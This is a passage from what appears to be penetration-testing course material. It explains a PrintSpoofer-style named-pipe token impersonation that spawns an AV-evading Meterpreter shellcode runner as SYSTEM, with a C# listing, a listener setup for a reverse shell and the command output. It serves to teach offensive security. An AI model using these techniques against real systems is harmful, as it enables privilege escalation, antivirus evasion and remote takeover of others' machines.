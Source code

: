 Next, we must consider _desktops_,[9](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5591-9) or logical display surfaces. Interestingly, all processes must have a designated desktop even if their windows are hidden.

When a logon session is created, _CreateProcessWithTokenW_ will automatically use the desktop of that session. However, in our case we must explicitly specify it in the _lpDesktop_ field of the _STARTUPINFO_ structure passed to the API as the eighth argument.

The default desktop is called _WinSta0\Default_,[10](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5591-10) which we set for the _lpDesktop_ property along with the other changes as shown in Listing 27.

```
PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
STARTUPINFO si = new STARTUPINFO();
si.cb = Marshal.SizeOf(si);
si.lpDesktop = "WinSta0\\Default";

if (args.Length == 0)
{
    Console.WriteLine("Usage: PrintSpooferNet.exe pipename");
    return;
}
...          
RevertToSelf();

res = CreateProcessWithTokenW(hSystemToken, LogonFlags.WithProfile, null, "C:\\inetpub\\wwwroot\\Upload\\met.exe", CreationFlags.UnicodeEnvironment, env, sbSystemDir.ToString(), ref si, out pi);
```

> Listing 27 - Setting default desktop and logon profile

The final step is to choose the application to use with _CreateProcessWithTokenW_. We could use PowerShell to start an in-memory PowerShell shellcode runner, but we must take AMSI into account. In more complicated attacks such as these, it is often better to take a simple approach and place the executable on disk. This means we must make sure the executable evades AV detection.

To generate the executable, we'll reuse our AV bypass C# shellcode runner that we used for our web shell, since it was successful.

Once the met.exe C# shellcode runner executable is created along with the modified PrintSpooferNet application, we'll upload them along with the SpoolSample executable to the upload folder on web01.

Now we're ready to launch the attack. First, we'll ensure that a multi/handler listener is running in the background on port 443 to catch the SYSTEM shell. Then we'll launch a command prompt and run PrintSpooferNet from that shell:

```
PS C:\windows\system32\inetsrv> c:\inetpub\wwwroot\upload\printspoofernet.exe \\.\pipe\test\pipe\spoolss
c:\inetpub\wwwroot\upload\printspoofernet.exe \\.\pipe\test\pipe\spoolss
Named pipe created: 628
```

> Listing 28 - Executing PrintSpooferNet
